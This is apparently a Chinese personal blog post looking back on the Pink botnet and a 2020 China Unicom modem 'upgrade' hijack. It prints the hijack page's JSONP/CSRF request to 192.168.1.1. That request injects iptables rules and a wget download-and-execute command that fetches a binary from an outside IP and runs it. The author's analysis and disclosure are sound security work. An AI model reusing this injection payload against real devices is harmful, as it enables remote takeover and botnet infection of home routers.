 # 从最近披露的Pink僵尸网络想到的


昨天上课的时候无聊刷[V2EX](https://www.v2ex.com/t/810633)，读到 360 Netlab 发布的文章[《一个藏在我们身边的巨型僵尸网络 Pink》](https://blog.netlab.360.com/pinkbot/)，披露了2019年底到2020年春节前后的一个名为"**Pink**"的巨型僵尸网络从被发现到攻防博弈过程的一些细节

文中的攻防过程令我很是激动，因为我想起了在2020年初的一件事

## 光猫升级事件

2020年1月初，访问某些http协议(80端口)的网站，会被劫持到一个联通光猫升级页面

![百度贴吧被劫持到升级页面](tieba-web-update.png "百度贴吧被劫持到升级页面")

{{< admonition info >}}
对这个页面的源码在gist上进行了[备份](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae)，感兴趣的同学可以看一下 [9923](https://gist.github.com/zu1k/7120d1f71797153eb8c867bb09323eae#L9923) 行
{{< /admonition >}}

### 官方后门

通过查看请求和页面源码可以发现这个页面通过想"**192.168.1.1**"的某个接口进行**jsonp**请求来执行命令

```javascript
function ajax(){
    //document.getElementById("tip").innerHTML="请重启光猫，并保持页面不关闭，重启后请立即连接光猫WIFI或者网口，等待五分钟后检查网络是否正常";
    $.ajax(
        {
            dataType: 'jsonp',
            data: "",
            jsonp: 'callback',
            url: 'http://192.168.1.1/createNewFolder.json?enlpassword=1234567890abcdefx1234567890abcdefxx1234567890abcdefxxx1eee;iptables -I OUTPUT -p tcp --dport 443 -j DROP;iptables -I OUTPUT -p udp --dport 123 -j DROP;if [ ! -f /tmp/sdsjw ] %26%26 wget http://182.43.249.225:19735/sdsjw -P /tmp;then chmod 777 /tmp/sdsjw;/tmp/sdsjw;fi; /jsonp?',
            success: function (data) {
                console.log(JSON.stringify(data));   // 这里是返回数据
                //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
            },
            error:function(XLMHttpResponse,textStatus,errorThrown){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            },
            complete:function(XLMHttpResponse){
                if(XLMHttpResponse.status == 200){
                    //document.getElementById("tip").innerHTML="设备正在升级，请等待五分钟后检查网络是否正常";
                }
            }
        }
    );
}
```

很明显，这是一个后门，或者是一个漏洞，我更相信这是一个官方后门

根据它的写法我稍微测试了一下，通过jsonp跨域，进行CSRF，的确可以执行任意命令

![测试这个后门](test-backdoor.png "测试后门")

如果被利用了，岂不是？？？又有谁知道到底是不是已经被利用了呢，反正我不知道

{{< admonition info >}}
我很早之前就把光猫设置为桥接模式了，利用自己的路由器拨号，不受该后门影响

局域网也改为另外一个网段了，“192.168.1.1” 根本没有机器
{{< /admonition >}}

再回过头来看升级页面执行的shell命令:

```bash
iptables -I OUTPUT -p tcp --dport 443 -j DROP;
iptables -I OUTPUT -p udp --dport 123 -j DROP;
if [ ! -f /tmp/sdsjw ] && wget http://182.43.249.225:19735/sdsjw -P /tmp; then
    chmod 777 /tmp/sdsjw;
    /tmp/sdsjw;
fi;
/jsonp?
```

当初看这段命令的时候就觉得非常奇怪

为什么上来第一句就要阻断到所有目标443端口的tcp连接？当初的一个想法是防止用户用https协议，这样用户只能使用80端口的http明文协议，可以进行监听或者劫持等操作。这样也不合理啊，HSTS也不是吃干饭的，再说联通如果通过更新屏蔽掉到443端口的所有请求，不怕用户集体反馈和投诉吗？反正当初是没想通这个谜之操作

再看第二句，也莫名其妙，udp 123端口是NTP服务，找你惹你了，犯不着全部屏蔽掉吧。还是想不明白

往后的命令就比较常规了，下载了一个二进制程序，权限修改为`777`，然后直接执行

### 怀疑被攻击

通过对上面升级执行的命令进行分析，我觉得这些操作很不符合常理，将这些已知信息在小群里交流之后，怀疑可能是一起攻击事件，通过劫持用户的http访问，利用光猫的后门(可能是漏洞，虽然我不信)植入恶意程序

遂决定对`sdsjw`程序进行逆向分析，分析的枯燥过程这里省略了，最后结果就是没有发现什么异常的点，到这里对这个事件的分析便不了了之了（当初的二进制程序我找不到了，现在也下载不到了）

{{< admonition info >}}
通过逆向mips版的升级程序，我得出了两个结论：

- JEB的MIPS逆向体验很不错
- 毛子的JEB破解版真好用
{{< /admonition >}}

### 联通工作人员上门升级

2020年5月10号下午，联通工作人员上门进行光猫升级。具体升级方法就是把一块板子通过光猫侧面的口插到主板上，然后通过手机上的app进行固件刷写

在交流的过程中，他透漏光猫大批量被控，有对外攻击流量，接上面要求需要对所有光猫进行升级。我家的光猫在线升级失败，只能到户手动完成。我看了一下他需要上门的名单，看样子我们这个区域关闭了在线管理接口的用户还不少啊哈哈哈

![联通工作人员上门升级](update.jpg "联通工作人员上门升级")

## 我在第一层，人家在第5层

虽然这个事已经过去一年多了，但现在想起来还是有那么一些感触，在运营商与黑客的一轮又一轮攻防博弈中，我有幸记录下其中某个小小的过程。在信息还未对外揭露之前，我无法理解那些莫名其妙的升级指令，甚至怀疑那是一起攻击事件，利用自己微不足道的知识尝试分析却不得结果。当保密期过去之时，我们得以看到整个事件的原貌，不禁感叹，我还是太年轻了啊（好像听到了“长者”的话）

### 关于看待事情

所谓“管中窥豹，略见一斑”，从这件事我学到的第一点便是，要有大局观，要广泛的收集信息，看待某件事时要把时间线放长，这样才能去尽力触及事情的真相

### 关于现代网络攻击

我学到的第二点是关于现代网络攻击。我觉得我对网络攻击的印象还停留在早年的那些简单的漏洞利用，虽然近几年通过网络也吃了不少现代网络攻击事件的瓜，但是并未意识到真正的网络攻击就潜伏在你我身边

通过本次事件我们可以清晰的看出，现代的网络攻击使用的技术更加先进，对隐匿性的要求也更高，如果不是有广泛的监控难以发现。在遇到厂商的狙杀时攻击者能够在第一时间绕过和阻拦，甚至能够在多轮对抗中取得优势将厂商直接阻拦在门外，夺取绝对的控制权，逼迫厂商只能线下进行上门修复

简单列几句文中的原话：

- “至对光猫固件做了多处改动后，还能确保光猫能够正常使用”
- “在与相关厂商的屡次攻防博弈中，PinkBot 的运营者都占据了明显的对抗优势”
- “PinkBot 在整个过程中表现出了极强的针对性和专业性，各方面能力都很均衡，甚至有些可怕”
- “攻击者还使用了ecdsa对配置信息进行了签名”

我觉得不可思议的是这一句：

- “我们一直阶段性的对公网上的 Pink 节点进行持续监测，通过对 2021/10/20日的日志分析，我们仍然可以看到 103024 个 IP 处于日活状态。这表明，当前的 pink 的感染规模仍然在 10w 量级左右，涉及多家设备厂商，按照每个IP对应一个三口之家来计算，受影响人群大概 30w 人左右”

被发现近2年，竟然还没有清除干净，这存活能力得有多强，难以想象

结论：攻击者能力很强，未来遭遇的攻击会更加专业和可怕

### 关于个人安全

关于个人安全，其实我没有发言权，毕竟我也曾踩过别人的水坑

但是我还是要说一句，就是保持差异化，默认的配置只会给攻击者创造便利

再加一句，不要把自己的安全完全托付在别人手中

## 参考链接

- [运营商收回公网 IP 的原因之一](https://www.v2ex.com/t/810633)
- [一个藏在我们身边的巨型僵尸网络 Pink](https://blog.netlab.360.com/pinkbot/)
- [用户端设备ONU被肉鸡攻击实例浅析](https://www.freebuf.com/articles/endpoint/243189.html)

